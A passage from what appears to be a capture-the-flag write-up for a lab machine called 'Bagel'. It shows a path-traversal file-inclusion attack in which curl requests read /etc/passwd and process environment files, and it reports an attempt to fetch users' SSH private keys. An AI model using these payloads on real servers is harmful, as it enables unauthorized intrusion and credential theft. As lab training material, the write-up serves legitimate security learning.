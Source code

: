 ## Foothold

I ran feroxbuster in the background, then started trying Local File Inclusion with path traversal (note the `page=index.html` query param on our home page).  And, this straight forward path traversal works:

```bash
$curl "http://bagel.htb:8000/?page=../../../../../etc/passwd" 
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/usr/sbin/nologin
systemd-oom:x:999:999:systemd Userspace OOM Killer:/:/usr/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/usr/sbin/nologin
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
setroubleshoot:x:997:995:SELinux troubleshoot server:/var/lib/setroubleshoot:/sbin/nologin
cockpit-ws:x:996:994:User for cockpit web service:/nonexisting:/sbin/nologin
cockpit-wsinstance:x:995:993:User for cockpit-ws instances:/nonexisting:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
chrony:x:994:992::/var/lib/chrony:/sbin/nologin
dnsmasq:x:993:991:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
systemd-coredump:x:989:989:systemd Core Dumper:/:/usr/sbin/nologin
systemd-timesync:x:988:988:systemd Time Synchronization:/:/usr/sbin/nologin
developer:x:1000:1000::/home/developer:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
_laurel:x:987:987::/var/log/laurel:/bin/false
```

Apart from `root`, the `developer` and `phil` (user id >= 1000) look interesting.  I tried reading `../../../../home/developer/.ssh/id_rsa` and `../../../../home/phil/.ssh/id_rsa`, hoping to get a private SSH key, but just got `File not found`.

We can use procfs via LFI to enumerate further.  We try reading the environment by using `/proc/self/environ`, along with `/proc/self/cmdline`, to see the current process and arguments:

```bash
$curl "http://bagel.htb:8000/?page=../../../../../proc/self/environ" --output -
LANG=en_US.UTF-8PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/binHOME=/home/developerLOGNAME=developerUSER=developerSHELL=/bin/bashINVOCATION_ID=f9c0f362492c4ff9a36ee87a5a311a25JOURNAL_STREAM=8:25486SYSTEMD_EXEC_PID=897% 
curl "http://bagel.htb:8000/?page=../../../../../proc/self/cmdline" --output - 
python3/home/developer/app/app.py%          
```
